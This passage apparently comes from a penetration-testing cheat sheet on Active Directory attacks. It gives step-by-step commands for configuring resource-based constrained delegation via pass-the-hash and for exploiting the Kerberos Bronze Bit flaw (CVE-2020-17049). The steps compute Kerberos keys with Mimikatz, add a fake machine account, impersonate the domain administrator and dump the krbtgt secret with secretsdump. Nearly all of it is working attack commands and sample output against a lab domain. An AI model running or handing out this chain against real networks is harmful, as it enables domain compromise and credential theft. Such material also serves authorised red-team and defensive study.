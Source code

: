 * [https://github.com/NinjaStyle82/rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions)

Configure RBCD on the vulnerable host (DC01) via PtH:

```
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H fc525c9683e8fe067095ba2ddc971889:fc525c9683e8fe067095ba2ddc971889 -l 192.168.1.11
```



### Bronze Bit

**CVE-2020-17049**

* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)

Calculate Kerberos keys for the fake machine account with [Get-KerberosAESKey](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372):

```
PS > Get-KerberosAESKey -Password 'Passw0rd!' -Salt MEGACORP.LOCALfakemachine1337
AES128 Key: 01C7B89A74F7AEC1007DED2F3DE0A815
AES256 Key: 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98
```

Or with Mimikatz:

```
mimikatz # kerberos::hash /domain:megacorp.local /user:fakemachine1337 /password:Passw0rd!
        * rc4_hmac_nt       fc525c9683e8fe067095ba2ddc971889
        * aes128_hmac       01c7b89a74f7aec1007ded2f3de0a815
        * aes256_hmac       211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98
        * des_cbc_md5       621a91461f1adffe
```

Now you can impersonate a protected user:

```
$ addcomputer.py -computer-name fakemachine1337 -computer-pass 'Passw0rd!' -dc-ip 192.168.1.11 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 192.168.1.11
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 192.168.1.11 megacorp.local/fakemachine1337 -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 192.168.1.11 -no-pass -k
```



### Metasploit
